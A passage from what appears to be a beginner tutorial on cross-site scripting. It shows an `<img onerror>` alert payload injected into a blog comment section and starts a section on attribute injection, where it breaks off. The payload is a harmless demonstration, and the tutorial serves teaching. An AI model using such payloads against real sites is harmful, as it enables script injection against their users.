 So analyzing the comment sections, we can have a conclusion, and it is we can put a tag inside of a tag as comment. We can try to put a image, an encase that the image doesn't load, it can run an event (Javascript):

```html
<img src="PWNED" onerror="alert('PWNED')">
```

and it would look like this in our section comment

```html
<hr> 
	<h1>Comments</h1>
	<section class="comment"> 
		<p> 
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar">  MaChartin | 29 May 2025 
		</p> 
		<p>This is a comment</p> 
		<p> </p> 
	</section> 
	<section class="comment"> 
		<p>
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar">  Amuscle | 12 June 2025
		</p> 
		<p>This is a comment</p> 
		<p></p>
	</section>
	<section class="comment"> 
		<p>
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar"> HACKER | 31 Octuber 2025
		</p> 
		<p><img src="PWNED" onerror="alert('PWNED')"></p> 
		<p></p>
	</section>
</hr>
```
 

#### XSS in HTML tag attributes

Other common case can be a XSS in a HTML tag attribute, a serious bad error in web programming is allow the client write on the HTML tag attributes, because a person could break those tags to then insect any other HTML code, for instance, suppose be able to write a `data-user` atribute in a `<section>` tag by a form:

```html
<hr> 
	<h1>Comments</h1>
	<section class="comment" user-data="MaChartin"> 
		<p> 
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar">  MaChartin | 29 May 2025 
		</p> 
		<p>This is a comment</p> 
		<p> </p> 
	</section> 
	<section class="comment" user-data="Amuscle"> 
		<p>
		<img src="[/resources/images/avatarDefault.svg](view-source:https://example.net/resources/images/avatarDefault.svg)" class="avatar">  Amuscle | 12 June 2025
		</p> 
		<p>This is a comment</p> 
		<p></p>
	</section>
```